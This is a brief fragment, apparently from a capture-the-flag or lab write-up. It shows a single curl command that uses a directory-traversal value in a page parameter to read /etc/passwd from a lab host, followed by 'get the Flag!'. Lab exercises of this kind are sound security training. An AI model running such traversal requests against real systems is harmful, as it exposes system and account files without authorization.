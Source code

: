 




curl 'http://192.168.56.3/index.php?page=../../../../../../../../../../etc/passwd/'

get the Flag!